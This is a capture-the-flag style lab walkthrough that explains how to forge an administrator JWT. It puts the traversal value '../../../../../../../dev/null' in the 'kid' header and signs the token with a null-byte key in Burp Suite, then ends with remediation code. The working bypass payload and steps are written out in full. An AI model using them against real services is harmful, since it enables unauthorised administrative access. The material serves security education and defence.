

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔑 In **JWT Editor Keys**, create a new symmetric key — replace the `k` value with `AA==` (Base64 null byte) — save it
- ✏️ In Burp Repeater, change the JWT header's `kid` to `../../../../../../../dev/null` — change the payload's `sub` claim to `"administrator"`
- 🔐 Click **Sign** — select your null-byte key — check **"Don't modify header"** — the token is now signed with a null byte secret
- 🗺️ Send `GET /admin` with the modified token — the server reads `/dev/null` (empty) as the signing key — it matches the null-byte signature — admin panel loads
- 🗑️ Delete the user `carlos` → lab solved!

---

## 🧠 **Concept Recap**

> **JWT authentication bypass via `kid` header path traversal** exploits a server that uses the `kid` (Key ID) JWT header parameter to locate a signing key on its filesystem — without sanitising the value. An attacker can inject a path traversal sequence (`../../../../../../../dev/null`) to redirect the server to read `/dev/null` as the key file. Since `/dev/null` always returns empty content, a JWT signed with a null byte (`\x00`) as the secret will pass verification. The attacker then sets `sub: "administrator"` in the payload and gains full admin access — no brute-force, no key theft needed.

### 📊 **Normal `kid` Usage vs Path Traversal Attack**

|Scenario|`kid` value|Server reads|Signing key used|
|---|---|---|---|
|✅ **Normal**|`"key-001"`|`/keys/key-001`|Legitimate secret key|
|❌ **Path traversal**|`"../../../../../../../dev/null"`|`/dev/null`|Empty → null byte `\x00`|

```js
JWT header (normal):
  { "alg": "HS256", "typ": "JWT", "kid": "key-001" }
  → Server fetches /keys/key-001 → verifies signature with that secret

JWT header (attacked):
  { "alg": "HS256", "typ": "JWT", "kid": "../../../../../../../dev/null" }
  → Server fetches /dev/null → reads empty content → verifies with null byte
  → We pre-signed our token with null byte → verification passes ✅
```

**The full attack flow:**

```js
Log in as wiener → capture JWT in Burp Repeater
         ↓
JWT Editor Keys → New Symmetric Key → Generate → replace k with AA== → save
         ↓
In Repeater → JSON Web Token tab:
  Header:  { "alg": "HS256", "typ": "JWT", "kid": "../../../../../../../dev/null" }
  Payload: { "sub": "administrator", "exp": ... }
         ↓
Click Sign → select null-byte key → "Don't modify header" checked → OK
  → Token is now validly signed with \x00 as the secret
         ↓
Send GET /admin with modified token
  → Server reads kid → traverses to /dev/null → reads empty content
  → Verifies HMAC-SHA256 with null byte → matches our signature ✅
  → Server reads sub: "administrator" → admin access granted ✅
         ↓
Delete carlos → lab solved ✅
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Install JWT Editor and Log In**

1. 🌐 Click **"Access the lab"**
2. 🔌 Ensure **Burp Suite is running** and proxying traffic
3. ⚙️ In Burp → **Extender → BApp Store** → search **JWT Editor** → click **Install**
4. 🖱️ On the lab site, click **"My account"** → log in with `wiener` / `peter`
5. 🖱️ In Burp → **Proxy → HTTP history** → find the post-login `GET /my-account`
6. 🖱️ Right-click → **"Send to Repeater"**

---

### 🔧 **Step 2 — Confirm You're Blocked from /admin**

1. 🖱️ In Repeater, change the path from `/my-account` to `/admin`:

```http
GET /admin HTTP/1.1
Cookie: session=eyJhbGci...  (wiener's original token)
```

2. 🖱️ Click **"Send"**

```js
Expected result:
  → "Admin interface only accessible if logged in as the administrator"
  → Server reads sub: "wiener" → not administrator → access denied
  → Confirms admin access is gated on the sub claim in the JWT
```

---

### 🔧 **Step 3 — Create a Symmetric Key with a Null Byte Secret**

1. 🖱️ In Burp → click the **JWT Editor Keys** tab in the main tab bar
2. 🖱️ Click **"New Symmetric Key"**
3. 🖱️ Click **"Generate"** — a new key is created in JWK format:

```json
{
  "kty": "oct",
  "kid": "some-generated-id",
  "k": "GawgguFyGrWKav7AX4VKUg"
}
```

4. ✏️ Replace the `k` value with **`AA==`** (Base64-encoded null byte `\x00`):

```json
{
  "kty": "oct",
  "kid": "some-generated-id",
  "k": "AA=="
}
```

5. 🖱️ Click **"OK"** to save

```js
Why AA==?
  → The JWT Editor extension won't accept an empty string as a signing secret
  → AA== is Base64 for a single null byte (\x00)
  → /dev/null returns empty content — which the HMAC library treats as a null byte
  → So signing with AA== matches what the server will compute when it reads /dev/null
```

---

### 🔧 **Step 4 — Modify the JWT Header (`kid`)**

1. 🖱️ Back in Repeater (on the `GET /admin` request) → click the **JSON Web Token** tab
2. 🖱️ In the **Header** section, change the `kid` value to the path traversal payload:

```json
{
  "alg": "HS256",
  "typ": "JWT",
  "kid": "../../../../../../../dev/null"
}
```

3. 🖱️ Click **"Apply changes"**

```js
What this does:
  → The server uses kid to locate the signing key file on disk
  → Without validation, "../../../../../../.." traverses up to the filesystem root
  → Then /dev/null is appended → server reads /dev/null as the key file
  → /dev/null always returns empty content on any Unix/Linux system
  → The server will try to verify the JWT signature using that empty content as the key
```

---

### 🔧 **Step 5 — Modify the JWT Payload (`sub`)**

1. 🖱️ In the **Payload** section, change `sub` from `"wiener"` to `"administrator"`:

```json
{
  "sub": "administrator",
  "exp": 1648037164
}
```

2. 🖱️ Click **"Apply changes"**

```js
Don't send yet — the signature hasn't been updated to match the modified token.
We need to re-sign using the null-byte key we created — next step.
```

---

### 🔧 **Step 6 — Sign the Token with the Null Byte Key**

1. 🖱️ At the bottom of the **JSON Web Token** tab, click **"Sign"**
2. 🖱️ In the dialog, select the symmetric key you saved (the one with `k: "AA=="`)
3. ☑️ Ensure **"Don't modify header"** is checked — this preserves your custom `kid` value

```js
Why "Don't modify header" must be checked:
  → The Sign function may regenerate the header (including kid) by default
  → Checking this option freezes the header exactly as you edited it
  → Without it, your ../../../../../../../dev/null kid would be overwritten
```

4. 🖱️ Click **"OK"**

```js
Result:
  → The JWT is now signed with HMAC-SHA256 using \x00 (null byte) as the secret
  → The kid header still points to ../../../../../../../dev/null
  → When the server reads /dev/null and computes HMAC with that empty key,
    it produces the same signature we just generated → verification passes
```

---

### 🔧 **Step 7 — Access the Admin Panel**

1. 🖱️ Confirm the full request looks like this:

```http
GET /admin HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=MODIFIED-HEADER.MODIFIED-PAYLOAD.NEW-SIGNATURE
```

2. 🖱️ Click **"Send"**

```js
Expected result:
  → 200 OK — admin panel HTML loads ✅
  → Server read kid: ../../../../../../../dev/null
  → Server read /dev/null → empty content → used as HMAC key
  → Signature matches → token trusted
  → Server read sub: "administrator" → admin access granted
```

---

### 🔧 **Step 8 — Delete carlos**

1. 🖱️ In the admin panel response, find the delete URL:

```js
/admin/delete?username=carlos
```

2. 🖱️ In Repeater, update the path:

```http
GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=MODIFIED-HEADER.MODIFIED-PAYLOAD.NEW-SIGNATURE
```

3. 🖱️ Ensure the JWT still has `kid: ../../../../../../../dev/null`, `sub: administrator`, and the correct null-byte signature
4. 🖱️ Click **"Send"**

```js
Result:
  → carlos is deleted ✅
  → Lab solved! 🎉
```

---

## 🎉 **Lab Solved!**

```
✅ Created symmetric key with k = AA== (null byte secret)
✅ Set kid → ../../../../../../../dev/null (path traversal to empty file)
✅ Changed sub → "administrator"
✅ Signed token with null-byte key (preserving custom kid header)
✅ Server read /dev/null as key → verified successfully
✅ Admin panel loaded → carlos deleted
✅ Lab complete!
```

---

## 🔗 **Complete Attack Chain**

```r
1. Log in as wiener → GET /my-account → Send to Repeater
2. GET /admin with original token → blocked (sub: wiener)
3. JWT Editor Keys → New Symmetric Key → k = AA== → save
4. JSON Web Token tab → Header: kid → ../../../../../../../dev/null
5. Payload: sub → "administrator"
6. Sign → select null-byte key → "Don't modify header" → OK
7. GET /admin → admin panel loads (server verified with /dev/null as key)
8. GET /admin/delete?username=carlos → lab solved
```

**No secret key stolen. No brute-force. Just redirecting the server's key lookup to a predictable empty file.**

---

## 🧠 **Deep Understanding**

### Why `/dev/null` is the perfect target

```js
/dev/null is a special character device file on all Unix/Linux systems:
  → Reading it always returns 0 bytes (empty content) — no matter what
  → It exists on every Linux server without exception
  → It's readable by all users and processes
  → Its content is perfectly predictable — always empty

In terms of HMAC-SHA256:
  → HMAC(key="", message=header+payload) produces a fixed, deterministic signature
  → The JWT Editor represents this as AA== (Base64 null byte \x00)
  → When the server reads /dev/null and uses that as the HMAC key,
    it computes the exact same signature → token passes verification
```

### The root cause — unsanitised `kid` used as a filesystem path

```js
Vulnerable server logic:

  kid = jwt.header['kid']                  // attacker-controlled string
  key_path = "/var/keys/" + kid            // string concatenation — no validation
  secret = open(key_path).read()           // reads whatever file kid resolves to
  jwt.verify(token, secret)                // verifies with that file's contents

With kid = "../../../../../../../dev/null":
  key_path = "/var/keys/../../../../../../../dev/null"
  → resolves to /dev/null
  → secret = "" (empty)
  → verify(token, "") → matches signature generated with null byte → passes ✅

The fix:
  → Never use kid as a raw filesystem path
  → Whitelist allowed key IDs; look them up in a database or in-memory map
  → If filesystem keys are required, canonicalize the path and verify it
    stays within the allowed key directory (os.path.realpath check)
```

### Why the `kid` parameter is dangerous when server-controlled logic uses it directly

```js
The kid parameter is part of the JWT header.
The JWT header is Base64-encoded — not encrypted, not signed before decoding.
It is entirely attacker-controlled.

Any server behaviour that takes kid as direct input to:
  → Filesystem reads (this lab — path traversal)
  → SQL queries (SQL injection via kid)
  → Shell commands (command injection via kid)
  → HTTP requests (SSRF via kid)

...is a direct injection vulnerability gated only by input validation.
No validation = full control of server-side resource lookup.
```

---

## 🐛 **Troubleshooting**

```js
Problem: Admin panel returns 401 after signing
→ Check "Don't modify header" was selected before clicking OK in the Sign dialog
→ Without it, the kid value gets overwritten with the key's own kid — not the traversal path
→ Re-apply kid: ../../../../../../../dev/null in the header, then re-sign

Problem: Server returns 500 or "key not found" error
→ Add more ../ sequences — the path traversal must reach the filesystem root
→ ../../../../../../../ (7 levels) covers most deployment paths
→ Try 10–12 levels if needed: ../../../../../../../../../../dev/null

Problem: JWT Editor "Sign" button grays out or does nothing
→ Ensure k = AA== is saved correctly (exactly two A's, two equals signs, no spaces)
→ Confirm the JWT Editor extension is active in Extender → Extensions

Problem: "Don't modify header" option not visible in Sign dialog
→ This option appears as a checkbox below the key selection dropdown
→ It may be labelled "Don't modify header claims" — ensure it is checked ✅

Problem: Delete request returns 401 after /admin loaded successfully
→ The modified JWT must be used in the delete request too
→ Burp may revert to the original session cookie — paste the modified JWT manually
→ Check: kid still ../../../../../../../dev/null, sub still administrator

Problem: Lab already solved / carlos not in user list
→ Reset the lab from the lab page to restore the original state
```

---

## 💬 **In One Line**

🔓 The server used the JWT `kid` header as a raw filesystem path without sanitisation — so injecting `../../../../../../../dev/null` redirected key lookup to an always-empty file, and signing the token with a null byte secret (`AA==`) produced a signature the server validated successfully. That's **JWT Authentication Bypass via `kid` Header Path Traversal** — the attacker chose the key, not the server.

---
---

## 🔒 **How to Fix It**

```js
# Priority 1 — Never use kid as a raw filesystem path
# Use a key store (dict, DB) with whitelisted IDs only

# ❌ BAD — kid used directly as a path:
kid = jwt.get_unverified_header(token)['kid']
key_path = "/var/keys/" + kid          # attacker controls this path
secret = open(key_path).read()         # reads arbitrary files → path traversal

# ✅ GOOD — kid resolved against a hardcoded whitelist:
KEY_STORE = {
    "key-2024-01": "super-secret-value-1",
    "key-2024-02": "super-secret-value-2",
}

def verify_token(token):
    kid = jwt.get_unverified_header(token).get('kid')

    if kid not in KEY_STORE:
        raise ValueError("Unknown key ID")

    return jwt.decode(token, KEY_STORE[kid], algorithms=['HS256'])
```

```js
# Priority 2 — If filesystem keys are required, canonicalize and jail the path

import os

KEY_DIR = os.path.realpath("/var/keys/")

def get_key_safely(kid):
    # Reject obviously dangerous input
    if not re.match(r'^[a-zA-Z0-9_-]+$', kid):
        raise ValueError("Invalid kid format")

    candidate = os.path.realpath(os.path.join(KEY_DIR, kid))

    # Ensure resolved path is still inside the key directory
    if not candidate.startswith(KEY_DIR + os.sep):
        raise ValueError("Path traversal attempt detected")

    with open(candidate, 'rb') as f:
        return f.read()
```

```js
# Priority 3 — Switch to asymmetric keys (RS256) — kid becomes irrelevant for security

# Server signs with private key (kept secret)
private_key = load_rsa_private_key()
token = jwt.encode(payload, private_key, algorithm='RS256')

# Verification uses public key only — even if kid is tampered, the attacker
# cannot produce a valid RS256 signature without the private key
public_key = load_rsa_public_key()
jwt.decode(token, public_key, algorithms=['RS256'])
```

```js
# Priority 4 — Reject empty or null-byte secrets at the library level

def verify_token(token):
    secret = get_signing_key(token)

    if not secret or secret == b'\x00' or len(secret) < 16:
        raise ValueError("Signing key is too weak or empty")

    return jwt.decode(token, secret, algorithms=['HS256'])
```

---
